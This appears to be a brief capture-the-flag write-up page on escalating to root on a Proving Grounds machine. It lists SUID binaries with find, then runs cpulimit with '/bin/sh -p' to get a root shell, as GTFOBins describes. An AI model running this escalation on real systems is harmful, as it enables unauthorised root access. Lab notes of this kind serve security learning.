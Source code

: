 ```yaml
---
layout: default
title: cpulimit
parent: SUID
nav_order: 2
---
```


# cpulimit

---

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/suid.png)

![gtfobins](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/gtfobins.png)

## Exploit Cpulimit SUID to get root

```bash
cpulimit -l 100 -f -- /bin/sh -p
```

![root](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/root.png)
